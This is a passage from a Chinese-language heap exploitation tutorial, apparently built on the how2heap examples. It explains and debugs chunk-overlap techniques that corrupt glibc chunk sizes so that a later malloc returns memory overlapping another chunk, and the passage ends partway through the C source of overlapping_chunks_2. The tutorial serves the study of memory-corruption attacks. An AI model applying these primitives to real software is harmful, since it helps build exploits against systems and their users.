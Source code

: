                  fprintf(stderr, "这时候通过编辑 p4 就可以修改 p3 的内容，修改 p3 也可以修改 p4 的内容\n\n");
             
                 fprintf(stderr, "接下来验证一下，现在 p3 与 p4:\n");
                 fprintf(stderr, "p4 = %s\n", (char *)p4+0x10);
                 fprintf(stderr, "p3 = %s\n", (char *)p3+0x10);
             
                 fprintf(stderr, "\n如果我们使用 memset(p4, '4', %d), 将会:\n", evil_region_size);
                 memset(p4, '4', evil_region_size);
                 fprintf(stderr, "p4 = %s\n", (char *)p4+0x10);
                 fprintf(stderr, "p3 = %s\n", (char *)p3+0x10);
             
                 fprintf(stderr, "\n那么之后再 memset(p3, '3', 80), 将会:\n");
                 memset(p3, '3', 80);
                 fprintf(stderr, "p4 = %s\n", (char *)p4+0x10);
                 fprintf(stderr, "p3 = %s\n", (char *)p3+0x10);
             }     
             ```

   这个比较简单，就是堆块重叠的问题。通过一个溢出漏洞，改写unsorted bin 中空闲堆块的size，改变下一次malloc可以返回的堆块大小。

​    直接动手调试，首先申请三个堆块。

 ![image-20211226161317690](/assets/wgpsec/images/heap/image-20211226161317690.png)

​    接着free掉p2，这时候p2被放到unsorted bin中。 

 ![image-20211226161322101](/assets/wgpsec/images/heap/image-20211226161322101.png)

​    然后把p2的size改成0x180，这时候就把p3给包含进去了。

 ![image-20211226161327419](/assets/wgpsec/images/heap/image-20211226161327419.png)

​    然后再去申请一块大小为0x180的堆块p4，就能够编辑p4，就可以修改p3的内容，编辑p3也可以修改p4的内容。

 ![image-20211226161332208](/assets/wgpsec/images/heap/image-20211226161332208.png)

## overlapping_chunks_2

   同样是堆块重叠的问题，前面那个是在chunk已经被free，加入到了unsorted bin之后，再修改其size值，然后malloc一个不一样的chunk出来，而这里是在 free之前修改size值，使free错误地修改了下一个chunk的prev_size值，导致中间的chunk强行合并。另外前面那个重叠是相邻堆块之间的，而这里是不相邻堆块之间的。

   源码如下。

 ```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
 #include <stdint.h>
 #include <malloc.h>
 
 int main(){
   
   intptr_t *p1,*p2,*p3,*p4,*p5,*p6;
   unsigned int real_size_p1,real_size_p2,real_size_p3,real_size_p4,real_size_p5,real_size_p6;
   int prev_in_use = 0x1;
 
   fprintf(stderr, "\n一开始分配 5 个 chunk");
   p1 = malloc(1000);
   p2 = malloc(1000);
   p3 = malloc(1000);
   p4 = malloc(1000);
   p5 = malloc(1000);
 
   real_size_p1 = malloc_usable_size(p1);
   real_size_p2 = malloc_usable_size(p2);
   real_size_p3 = malloc_usable_size(p3);
   real_size_p4 = malloc_usable_size(p4);
 ```